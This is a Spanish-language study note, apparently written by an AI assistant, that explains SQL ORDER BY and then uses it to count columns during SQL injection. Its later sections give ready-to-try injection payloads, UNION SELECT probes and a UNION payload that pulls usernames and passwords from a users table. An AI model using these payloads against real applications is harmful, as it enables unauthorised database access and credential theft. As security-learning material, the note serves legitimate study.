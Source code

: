 # Order by

---

`ORDER BY` sirve para **ordenar** los resultados de una consulta según una o varias columnas.

* `ORDER BY columna` → ordena por el contenido de `columna`. Por defecto `ASC` (ascendente).
* `ORDER BY columna DESC` → ordena de forma descendente.
* También se puede usar por **posición**: `ORDER BY 1` (primera columna del `SELECT`), `ORDER BY 2` (segunda), etc.

---

Tabla `products`:

| id | name       | category | price | released |
| -- | ---------- | -------- | ----- | -------- |
| 1  | Teddy Bear | Gifts    | 20    | 1        |
| 2  | Toy Car    | Toys     | 15    | 1        |
| 3  | Mug        | Gifts    | 8     | 0        |
| 4  | Chocolate  | Gifts    | 5     | 1        |
| 5  | Board Game | Toys     | 30    | 1        |

### Consultas y resultados

* `SELECT id, name, price FROM products ORDER BY price ASC;` → ordena por `price` (columna explícita).

* `SELECT id, name, price FROM products ORDER BY 2;` → ordena por la **segunda columna del SELECT**, es decir `name`.

Resultados (para `ORDER BY 2`):

| id | name       | price |
| -- | ---------- | ----- |
| 5  | Board Game | 30    |
| 4  | Chocolate  | 5     |
| 3  | Mug        | 8     |
| 1  | Teddy Bear | 20    |
| 2  | Toy Car    | 15    |

---

## `ORDER BY n` para contar columnas

* `ORDER BY n` se refiere a la **posición** `n` en la lista de columnas del `SELECT`.
* Si la consulta original tiene, por ejemplo, 3 columnas (`SELECT a, b, c ...`) y probás `ORDER BY 4`, el motor devolverá un **error** porque no existe la columna en la posición 4.
* En una inyección SQL, iterás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que el `ORDER BY N` produce error. El primer `N` que falla indica que hay `N-1` columnas.

**Importante:** esto cuenta las columnas del `SELECT` que la aplicación construye, no necesariamente todas las columnas que tiene la tabla (salvo que el `SELECT` use `*`, en cuyo caso coinciden).

---

## Ejemplo práctico (SQLi)

Imaginá que la app ejecuta internamente:

```sql
SELECT id, name, price FROM products WHERE id = <INPUT>
```

Si inyectás en `INPUT`:

* `1' ORDER BY 1--` → OK
* `1' ORDER BY 2--` → OK
* `1' ORDER BY 3--` → OK
* `1' ORDER BY 4--` → ERROR (no existe la 4ª columna)

Resultado: la consulta tiene 3 columnas.

**Si la consulta original fuera `SELECT * FROM products ...`**, el `ORDER BY` por posición se refiere a la expansión de `*` (todas las columnas de la tabla), por lo que el conteo te dirá cuántas columnas tiene la tabla en ese contexto.

---

## 5) Payloads listos para probar

* Parámetro **numérico** (sin comillas):

```
1 ORDER BY 1--
1 ORDER BY 2--
1 ORDER BY 3--
1 ORDER BY 4--
```

* Parámetro **string** (necesita cerrar comilla):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

* Alternativa con `UNION SELECT` (cuando no ves errores):

```
' UNION SELECT NULL--            -- prueba 1 columna
' UNION SELECT NULL, NULL--      -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL-- -- prueba 3 columnas
```

Cuando el `UNION` deje de fallar sabrás el número de columnas.

---

## 6) Advertencias y matices

* Si la aplicación **suprime errores**, `ORDER BY` no mostrará fallo visible. Usa `UNION` o inyección ciega (time/boolean).
* Si la consulta original ya contiene un `ORDER BY`, inyectar otro puede romper la sintaxis.
* Si el input se utiliza en otra parte del SQL (p. ej. dentro de una subquery), `ORDER BY` puede no referirse a la lista de columnas que esperás.
* En algunas bases o APIs la referencia por posición puede comportarse ligeramente distinto; la técnica es ampliamente válida en MySQL, PostgreSQL, MSSQL y Oracle en su forma básica.

---

## 7) Ejemplo final: usar el número de columnas para `UNION` y exfiltrar

Si descubriste que el `SELECT` tiene 3 columnas, podés probar:

```sql
' UNION SELECT NULL, NULL, CONCAT(username,0x3a,password) FROM users--
```

Ajustá la columna que contiene texto para que la app la muestre (por ejemplo, si solo la 2ª columna aparece en la página, pon el payload en la 2ª posición: `NULL, payload, NULL`).

---

Si querés, lo subo al lienzo como archivo separado (por ejemplo `theory/ORDER_BY_SQLi.md`) y te genero un bloque listo para copiar en tu repo. ¿Querés que lo guarde así?
